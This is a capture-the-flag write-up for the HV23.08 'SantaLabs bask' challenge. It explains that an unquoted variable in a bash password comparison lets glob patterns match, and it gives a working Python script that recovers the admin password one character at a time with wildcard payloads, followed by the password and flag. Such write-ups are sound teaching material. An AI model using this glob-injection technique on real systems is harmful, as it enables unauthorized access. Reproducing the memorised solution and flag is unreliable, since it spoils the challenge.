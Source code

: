 # [HV23.08] SantaLabs bask

## Introduction

Difficulty: Medium<br>
Author: coderion

Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and even template your files by using dynamic scripting!

Please note that the snowflake animation upon visiting the website may not show on certain browsers and systems. In case this occurs, try another browser.

## Solution

This one was a pain, half of the time the webserver just didn't give a response, but in the end it was a relatively simple challenge.

Looking at the source we are given, we can see two different places where Logins are handled.

Once in `admin.sh`:
```bash
if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
```

and once in `post_login.sh`:
```bash
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
```

The problem here is that `post_login.sh` does not have `"` around the variables, so we can use some bash trickery to brute-force the password character by character.

```py
import requests
import string

host = "e4ec6e1b-ce79-4c8c-a76d-8f7e2e480e5b.idocker.vuln.land"
pw = ""
while True:
    for c in string.ascii_lowercase:
        print(f"\r{pw}{c}", end="")
        while True:
            resp = requests.post(f"https://{host}/login",
                    data=f"password={pw}{c}*")
            if resp.status_code == 200:
                break
        if c == "s":
            x = 1
        if "admin_token" in resp.text:
            pw += c
            break
    resp = requests.post(f"https://{host}/login", data=f"password={pw}")
    if "admin_token" in resp.text:
        print()
        break
```

This gives us  the admin password `salami`, which gives us the flag.

Flag: `HV23{gl0bb1ng_1n_b45h_1s_fun}`